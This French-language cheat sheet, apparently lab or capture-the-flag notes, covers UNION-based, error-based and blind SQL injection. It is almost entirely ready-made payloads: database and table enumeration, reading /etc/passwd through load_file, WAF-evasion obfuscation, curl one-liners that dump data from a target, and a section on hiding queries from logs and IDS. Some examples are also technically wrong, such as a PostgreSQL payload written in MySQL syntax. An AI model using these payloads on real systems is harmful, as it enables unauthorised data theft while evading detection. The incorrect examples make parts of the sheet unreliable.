

Ce document détaille les méthodologies d'exploitation pour les vulnérabilités de type **UNION-based SQL Injection**. Ces techniques sont étroitement liées aux concepts de **SQL Injection**, **Web Enumeration** et **Database Enumeration**.



## Détection

La détection repose sur l'identification d'une erreur SQL ou d'une modification du comportement de la page lors de l'injection de caractères spéciaux.

*   Test de syntaxe :
    ```sql
    '
    ```

*   Détermination du nombre de colonnes :
    ```sql
    ' ORDER BY 1-- -
    ' ORDER BY 2-- -
    ```

> [!danger]
> L'utilisation de **-- -** peut varier selon le moteur SQL (parfois **#** ou **--**).

> [!warning]
> Condition critique : le nombre de colonnes doit être identique entre la requête originale et l'injection.

## Identification du type de base de données (Fingerprinting)

Avant l'exploitation, il est crucial d'identifier le moteur SQL pour adapter la syntaxe.

| Moteur | Test de concaténation | Test de commentaire |
| :--- | :--- | :--- |
| MySQL/MariaDB | `'a' 'b'` | `#`, `-- -` |
| PostgreSQL | `'a' || 'b'` | `--` |
| MSSQL | `'a' + 'b'` | `--`, `/* */` |

Exemple pour MySQL :
```sql
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, @@version, 0x7e) x FROM information_schema.tables GROUP BY x) a)-- -
```

## Gestion des erreurs (Error-based vs Union-based)

Si **UNION-based** échoue, l'injection basée sur les erreurs permet d'extraire des données via les messages d'erreur du serveur.

*   **MySQL (ExtractValue) :**
    ```sql
    ' AND extractvalue(1, concat(0x7e, (SELECT user()), 0x7e))-- -
    ```
*   **PostgreSQL (Cast) :**
    ```sql
    ' AND 1=CAST((SELECT user()) AS int)-- -
    ```

## Injection aveugle (Blind SQLi)

Si aucune donnée n'est affichée, on utilise des requêtes booléennes ou temporelles.

*   **Boolean-based :**
    ```sql
    ' AND (SELECT 1 FROM users WHERE username='admin' AND password LIKE 'a%')-- -
    ```
*   **Time-based (MySQL) :**
    ```sql
    ' AND (SELECT 1 FROM (SELECT(SLEEP(5)))a WHERE 1=1)-- -
    ```

## Basic UNION template

Une fois le nombre de colonnes identifié, la structure de base pour l'injection est la suivante :

```sql
' UNION SELECT col1, col2, …, colN FROM table_target-- -
```

Exemple pour 3 colonnes :

```sql
' UNION SELECT NULL, NULL, NULL-- -
```

## Exfiltration de données

L'utilisation de **group_concat** permet d'extraire plusieurs entrées en une seule requête.

> [!tip]
> Utiliser **group_concat** pour éviter de multiples requêtes si une seule ligne est affichée.

### Lister les bases de données
```sql
' UNION SELECT NULL, group_concat(schema_name), NULL 
  FROM information_schema.schemata-- -
```

### Lister les tables d'une base
```sql
' UNION SELECT NULL,
    group_concat(table_name),
    NULL
  FROM information_schema.tables
  WHERE table_schema = 'nom_de_la_base'-- -
```

### Lister les colonnes d'une table
```sql
' UNION SELECT 
    group_concat(column_name),
    NULL,
    NULL
  FROM information_schema.columns
  WHERE table_schema = 'november'
    AND table_name = 'players'-- -
```

### Lecture de champs
```sql
' UNION SELECT 
    group_concat(player), NULL, NULL 
  FROM players-- -
```

```sql
' UNION SELECT 
    group_concat(one), NULL, NULL 
  FROM flag-- -
```

## Lecture de fichiers

La fonction **load_file** permet de lire le contenu de fichiers sur le système de fichiers du serveur.

```sql
' UNION SELECT 
    load_file('/etc/passwd'), NULL, NULL-- -
```

> [!note]
> Prérequis : **secure_file_priv** doit être vide ou pointer vers le répertoire cible pour **load_file()**.

## Contournement de filtrages

*   Commentaires inline : `-- -` ou `/*…*/`
*   Encodage URL :
    *   `'` → `%27`
    *   ` ` → `%20`
    *   `;` → `%3B`
*   Obfuscation :
    *   `UN/**/ION/**/SEL/**/ECT`
    *   `gRoUp_cOnCaT()`

## Techniques de WAF evasion avancées

Si un WAF bloque les mots-clés standards, utilisez l'encodage hexadécimal ou des fonctions alternatives.

*   **Hex Encoding :**
    ```sql
    ' UNION SELECT 1, 0x61646d696e, 3-- -
    ```
*   **Utilisation de CHAR() :**
    ```sql
    ' UNION SELECT 1, CHAR(97, 100, 109, 105, 110), 3-- -
    ```

## Automatisation Bash

Exemples d'utilisation de **curl** pour automatiser l'exfiltration :

```bash
# extraire flag
curl -s -X POST http://target -d "player=' union select group_concat(one) from flag;-- -"
```

```bash
# extraire mot-de-passe db
curl -s -X POST http://target -d "player=' union select group_concat(column_name) from information_schema.columns where table_name='users';-- -"
```

## Nettoyage des logs

Pour minimiser la trace, évitez les requêtes répétitives et utilisez des encodages qui ne sont pas loggés en clair par certains IDS/WAF.

```sql
-- Utilisation de commentaires pour masquer la requête dans les logs
' UNION SELECT 1,2,3 FROM users/*!50000WHERE*/1=1-- -
```

## Checklist

| Étape | Action |
| :--- | :--- |
| 1 | Détecter avec `'` ou **ORDER BY** |
| 2 | Identifier le nombre de colonnes |
| 3 | Tester **UNION SELECT NULL** |
| 4 | Remplacer **NULL** par **group_concat()** |
| 5 | Appliquer encodage si WAF présent |
| 6 | Itérer sur **information_schema** |
| 7 | Lire fichiers via **load_file()** |